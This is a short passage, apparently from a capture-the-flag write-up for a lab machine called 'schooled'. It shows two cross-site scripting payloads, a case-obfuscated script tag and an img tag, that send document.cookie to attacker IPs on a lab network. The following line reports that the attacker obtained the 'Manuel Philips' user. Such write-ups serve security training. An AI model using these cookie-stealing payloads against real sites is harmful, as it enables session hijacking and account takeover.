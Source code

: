```python
'><sCript>location="http://10.10.14.75:7676?"+document.cookie</sCript>
'><img src="http://10.10.14.78:8000?"+document.cookie></img>

```

![schooled/Untitled%206.png](schooled/Untitled%206.png)

We got the Manuel Philips user

![schooled/Untitled%207.png](schooled/Untitled%207.png)
